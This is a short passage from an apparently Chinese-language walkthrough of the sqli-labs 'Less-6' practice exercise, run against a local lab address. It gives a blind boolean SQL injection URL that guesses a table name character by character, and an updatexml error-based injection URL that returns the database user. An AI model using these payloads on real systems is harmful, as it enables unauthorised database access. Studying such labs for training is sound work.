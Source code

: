 ![image-20211214095801785](https://gitee.com/xxb667/img/raw/master/img/image-20211214095801785.png)

结果为114

```
http://192.168.81.135/sqli/Less-6/?id=1" and ascii(substr((select table_name from information_schema.tables where table_schema=0x7365637572697479 limit 1,1),1,1)) =114 --+
```

![image-20211214095916103](https://gitee.com/xxb667/img/raw/master/img/image-20211214095916103.png)

### 返回用户名

```
http://192.168.81.135/sqli/Less-6/?id=1" union select updatexml(1,concat(0x7e,(select user()),0x7e),1) --+
```

![image-20211214100127375](https://gitee.com/xxb667/img/raw/master/img/image-20211214100127375.png)

